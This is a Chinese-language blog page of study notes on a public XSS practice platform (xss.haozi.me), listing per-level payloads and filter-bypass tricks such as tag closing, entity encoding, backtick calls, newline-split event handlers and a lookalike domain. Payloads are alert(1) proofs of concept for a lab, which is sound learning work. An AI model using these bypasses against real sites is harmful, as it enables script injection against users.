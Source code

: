 ```yaml
---
layout: page
title: "XSS练习"
date: 2019-10-29 01:01
---
```


## 实验平台
https://curtails.github.io/xss/
https://xss.haozi.me

## XSS绕过方法总结
`<scirpt>`
```js
<script>alert(1)</script>
<script>alert(1);</script>
<script>alert("1")</script>
```

## xss-demo
[github](https://github.com/haozi/xss-demo/)  
[在线地址](https://xss.haozi.me)

拼凑所需语句即可不必关心原语句完整性？？浏览器容错性？？
- 0x00 `<script>alert(1)</script>` 无任何过滤
- 0x01 `</textarea><script>alert(1)</script>`闭合标签
- 0x02 `"> <script>alert(1)</script>`闭合标签
- 0x03 

```js
<script>alert`1`</script>
<svg><script>alert&#40;1&#41</script>
``` 

正则表达式过滤() 用``绕过或实体编码的字符编码
- 0x04 同0x03 

```js
<svg><script>alert&#40;1&#41</script>
<iframe onload=alert&#40;1&#41></iframe>
```
- 0x05
将-->替换成😀 html注释`<!--xxs--->`或`<!--xss--!>`
payload:`--!> <script>alert(1)</script>`

- 0x06
过滤`auto*****=`或`on*****=`替换为_ 可用换行符绕过

```js
onmousemove
=alert(1)

type=image src onerror
=alert(1)
```
- 0x07
匹配<***>字符串忽略大小写替换为空

```js
<svg/onload=alert(1) //有空格
```

- 0x08
将`</style>`替换成`/*坏人*/` 在标签>之前加个空格或换行就好了

```js
</style ><script>alert(1)</script>
</style
><script>alert(1)</script>
```

- 0x09
输入要以https://www.segmentfault.com开头 有一种payload是在网站上存在alert(1)js脚本

```js
https://www.segmentfault.com.haozi.me/j.js
```
